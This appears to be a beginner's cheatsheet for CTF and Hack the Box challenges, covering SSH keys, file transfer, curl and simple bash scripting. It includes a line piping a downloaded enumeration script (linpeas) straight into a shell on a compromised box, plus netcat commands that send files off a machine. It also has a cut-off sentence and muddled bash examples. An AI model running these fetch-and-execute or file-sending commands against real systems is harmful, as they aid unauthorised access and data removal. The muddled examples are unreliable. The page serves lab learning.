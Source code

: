 # Fundamental Skills
Here are some of the things I consider fundamental to CTFs, Hack the Box-esque challenges, and web hacking.

Skills include knowing how to transfer files between computers, crack passwords, remotely access a machine, run reconnaisance scans, analyse HTTP requests, and script with bash or python.

Each skill links to a more detailed entry in the cheatsheets, and some even have links to practical example where the skills have been used on a box or challenge.

Start here if you are a complete beginner!

## Remote Access to a Computer

### SSH

SSH means 'secure shell', and is one of the most fundamental ways of remotely accessing another computer.

SSH access is controlled by keys, using public-key cryptography. 'Hosts' make themselves

The SSH protocol also powers many other tools and services, such as [[Linux Networking#Secure Copy|Secure Copy]] and port forwarding.

**Basic Syntax**

```bash
$ ssh [user@]IP_ADDRESS
```

The `user@` portion is optional, and specifies a specific user you would like to connect as. The default is usually `root`, but this can vary depending on a host's ssh config.

#### SSH Keys

SSH keys come as a public-private key pair. This is a cryptographic scheme with many applications, from encryption to verifying identity.

During SSH, keys are used to identify yourself to an SSH server. A server may store a list of **public keys** (commonly in `~.ssh/authorized_keys`), which tells it which matching **private keys** it accepts.

Each SSH client (i.e. connecting computer) has its own **private key**, which it presents to a server. If the private key matches the known public key, the server accepts the connection.

To generate a public-private key pair, use `ssh-keygen`. This will prompt you to add a passphrase to your key, which is recommended for extra security:

```bash
$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/user/.ssh/id_rsa.
Your public key has been saved in /home/user/.ssh/id_rsa.pub.
...[SSH Fingerprint]...
```

This will create a pair of keys and store them in your `~/.ssh` directory. By default they will be called `id_rsa` (your **private key**) and `id_rsa.pub` (your **public key**).

You can change the name of these keys by specifying the `-f` flag, which also lets you specify where you wish to save them. This is useful if you have multiple keys

```bash
$ ssh-keygen -f test
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in test.
Your public key has been saved in test.pub.
```

To connect using a private key, use the `-i` flag (remember, *i* for 'identity'):

```bash
$ ssh -i /path/to/private/key [user@]IP_ADDRESS
```

Clients also keep a list of 'known hosts', which tells them which public keys they trust. This prevents a malicious actor impersonating a server you are trying to connect to, for example in a man-in-the-middle (MITM) attack. If you try to connect to a host whose public key has changed since you last connected, a warning will be displayed to let you know.

**Never give away your private key**. It will allow someone to impersonate you, and potentially gain access to your server.

## Filesharing Between Computers

There are many situations when you may want to transfer a file to a remote host. The most common example I can think of is when uploading an enumeration script to a machine you have gained a foothold on.

### Python Webserver

This is one of the easiest methods of file transfer. It involves starting a basic HTTP server on your machine and using this to serve files to a remote computer.

If you haven't already got it, you'll need to [install python](https://www.python.org/downloads/). You can check if you have it by running `which python` or `which python3` in your terminal. If both come back blank, you don't have it installed correctly.

Once you have Python, start your server:

```bash
$ python3 -m http.server
```

By default, this listens on port 8000. You can change the port by specifying an unused port number after the command:

```bash
$ python3 -m http.server [PORT]
```

If you want to listen on a priveleged port (<1000) you must run with root priveleges. Running on port 80 or 443 is a common use case, as they are the default ports for HTTP/S, and sometimes target machines will only communicate on one of these default ports.

```bash
$ sudo python3 -m http.server 80
```

**Communicating with the Server**

You can then make a request to this server from a remote box. For example, using `curl`:

```bash
$ curl [IP]:[PORT]/example.txt
```

Or `wget`:

```bash
$ wget [IP]:[PORT]/example.txt
```

This will request the file `example.txt` from your host machine, and download it to the box. The choice of command depends on what is installed on the box.

You can also pipe the results of a `curl` directly to a shell. This is useful for running a script such as linpeas.

```bash
$ curl [IP]:[PORT]/linpeas.sh | sh
```

Make sure to kill your server when you are done. It is also good practice to start your server in a directory without any sensitive files in it - just the scripts you want to upload.

See [[Aliases#Useful Aliases|Useful Aliases]] for the `enumserve` alias, which starts a Python Server in a preset directory that is full of juicy scripts.

### Secure Copy

Use secure copy to copy a file to a server you can connect to using SSH:

```bash
$ scp /path/to/local/file [user@][SOURCE_IP]:/path/to/target/destination
```

Or to download a file from a remote host:

```bash
$ scp [user@][SOURCE_IP]:/path/to/target/file /path/to/local/file
```

You can also use the `-i` flag to specify a key to use for authentication.

### Netcat

On the receiving machine, setup a `netcat` listener. This will receive a connection and output the file it is being sent to `/path/to/outfile`

```bash
$ nc -lp [PORT] > /path/to/outfile
```

From the sending machine, send a file to the listener, where `/path/to/infile` is the location of the file:

```bash
$ nc -w3 [IP] [PORT] < /path/to/infile
```

See the [[netcat]] note for more details on this useful tool :)

## Sending HTTP Requests

### Using Curl

Use `curl` to send a simple `GET` request to a URL:

```bash
$ curl [URL]
```

*Note*: you must specify the `http://` or `https://` prefix (i.e. `https://google.com`, not just `google.com`)

Specify an outfile to save the output with the `-o` flag:

```bash
$ curl [URL] -o /path/to/outfile
```

Send a `POST` request with the `-X POST` flag:

```bash
$ curl -X POST [URL]
```

or using the `-d` flag to submit data (which implies `POST`):

```bash
$ curl -d 'key=value' [URL]
```

## Scripting & Programming

### sh/bash

Any command you can run in a unix command line, you can run in a bash script.

To create a bash script, add the `#!/bin/bash` shebang to a file, then write whatever commands you want to the file using a text editor. For example:

```bash
#!/bin/bash
echo '#!/bin/bash' > bash_script
```

contents of `bash_script`:

To execute it, make it executable:

```bash
#!/bin/bash
chmod +x bash_script
```

Then run it:

```bash
#!/bin/bash
bash bash_script
```

**sh**

`sh` scripting is similar, but doesn't require a shebang. Just write commands to any file with the `.sh` extension, and execute the file:

```bash
#!/bin/bash
echo 'ls -la' > list-files.sh
./list-files.sh
```